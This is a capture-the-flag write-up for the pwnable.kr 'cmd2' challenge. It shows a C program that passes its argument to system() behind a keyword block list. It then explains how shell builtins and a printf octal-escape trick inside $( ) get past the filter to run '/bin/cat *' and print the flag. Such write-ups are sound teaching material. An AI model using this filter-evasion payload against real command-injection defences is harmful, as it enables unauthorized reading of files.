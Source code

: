 # cmd2

## Description

cmd2 - 9 pt

> Daddy bought me a system command shell. <br>
> but he put some filters to prevent me from playing with it without his permission... <br>
> but I wanna play anytime I want! <br> <br>
> ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

## Solution

### Background

#### Builtin commands

Builtin commands are commands that are built into the shell itself. They are not executed as separate processes, but are executed by the shell. They are usually faster than external commands, since they don't need to be forked and executed. Also, they can be accessed anytime, even if the `PATH` variable is empty.

### Exploit

We are given the following source code:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

In a similar manner to the first challenge, the program first deletes all the environment variables, and sets `PATH` to `/no_command_execution_until_you_become_a_hacker`. Then, it executes the command that is passed as an argument. However, the program checks if the command contains `=`, `PATH`, `export`, ``` ` ``` or `flag`. If it does, it returns.

Once again our goal is to print the flag. Last time, we managed to bypass the filter by `cat`ing everything inside the directory. This time, calling `/bin/cat` would be harder, since we can't use `/`.

A good direction to go is looking up all the `builtin` commands. We can do this by running `help` in the shell. One command that catches the eye is `printf`. This command is used to print formatted output - similarly to `printf` in C. We can use it to call `/bin/cat` without the need to use `/`:

```sh
$ printf "%bbin%bcat *" "\57" "\57"
/bin/cat *
```

In order to make the shell run the output of the printf, we need to pass it into `cmd2` as an argument. We can do this by using the `$( )` syntax:

```bash
$ ./cmd2 '$(printf "%bbin%bcat *" "\57" "\57")'
FuN_w1th_5h3ll_v4riabl3s_haha
```